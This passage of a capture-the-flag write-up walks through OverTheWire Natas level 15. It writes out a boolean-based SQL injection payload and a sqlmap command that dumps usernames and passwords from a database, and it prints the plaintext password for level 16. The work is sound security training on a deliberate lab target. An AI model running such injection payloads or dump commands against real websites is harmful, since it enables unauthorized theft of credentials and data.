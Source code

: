 Lets try the username ```natas16``` to see if it exists

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/17e6293e-418e-40ab-9fee-2a53c3706b17)
![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/efeb46b8-1939-4163-84ea-ea3e98b582b2)

Now, this is a ```boolean-based SQLi```. Lets prepare a payload that returns a true value

payload:```" or '1'='1'#```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/05922a52-dc38-4c09-b24c-9c306cb11fb9)
![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/2df9bf67-c75b-44d4-b02c-c0448e270566)

We'll be using sqlmap to dump the database.

First, capture the request on burpsuite and save it in a file, say ```req.txt```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/2dbb7397-ef9e-4971-8369-165d8fccd1bc)
![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/f8d854b1-95cf-4731-873d-d464e16180c4)

Using sqlmap;

command:```sqlmap -r req.txt --level=5 --risk=3 -D natas15 -T users -C username,password --dump```

Let me explain this command

```
-r --> This tells sqlmap to use the request stored in req.txt file as the basis for analysis
-D --> Database name which is natas15 (Saw this from the source code)
-T --> Table name which is users (Got this from the sql query)
-C --> Column names which are username and password (Got this also from the sql query)
--dump --> This option tells sqlmap to dump the contents of the selected columns
--risk=3 --> This option sets the risk factor to 3, indicating a high-risk level for the injection attack
--level=5 --> This option sets the level of tests to be performed by SQLMap to the highest level, which is 5
```
Running the command;

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/84d36cd6-96ed-4053-99aa-e9e643dda098)
![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/9d6fbfb9-467c-4368-ba4b-c7677427556d)

Cool, we got  the password for the next level



# Level 16

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/f2d36d45-5184-46c2-bb51-bb184ca971e2)

Navigating to the webpage and using the password we got from the previous level

username:```natas16```        password```TRD7iZrd5gATjj9PkPEuaOlfEjHqj32V```
